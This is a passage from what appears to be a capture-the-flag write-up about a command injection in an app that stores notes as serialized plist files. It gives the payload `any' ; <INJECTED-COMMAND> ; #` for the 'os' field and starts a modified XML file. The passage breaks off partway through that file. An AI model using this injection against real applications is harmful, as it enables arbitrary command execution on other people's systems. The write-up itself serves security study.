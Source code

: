 The file stores information about the note, including its name, content, last_updated, and os. also, the os field contains the output of the `uname -a` command.

<br />

We can modify this file to inject a command so the executed command becomes:
 `uname -a | grep -o 'any' ; <INJECTED-COMMAND> ; # | head -n1`

The payload used is `any' ; <INJECTED-COMMAND> ; #`, where `#` comments out the remainder.

<br />

The XML file after injecting the `echo` command.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
        <key>$version</key>
        <integer>100000</integer>
        <key>$archiver</key>
        <string>NSKeyedArchiver</string>
        <key>$top</key>
        <dict>
                <key>root</key>
                <dict>
                        <key>CF$UID</key>
                        <integer>1</integer>
                </dict>
        </dict>
        <key>$objects</key>
        <array>
                <string>$null</string>
                <dict>
                        <key>NS.objects</key>
                        <array>
                                <dict>
                                        <key>CF$UID</key>
                                        <integer>2</integer>
                                </dict>
                        </array>
                        <key>$class</key>
                        <dict>
                                <key>CF$UID</key>
                                <integer>8</integer>
                        </dict>
                </dict>
                <dict>
                        <key>last_updated</key>
                        <dict>
                                <key>CF$UID</key>
                                <integer>5</integer>
                        </dict>
                        <key>content</key>
                        <dict>
                                <key>CF$UID</key>
                                <integer>4</integer>
                        </dict>
                        <key>os</key>
                        <dict>
                                <key>CF$UID</key>
                                <integer>6</integer>
                        </dict>
                        <key>name</key>
```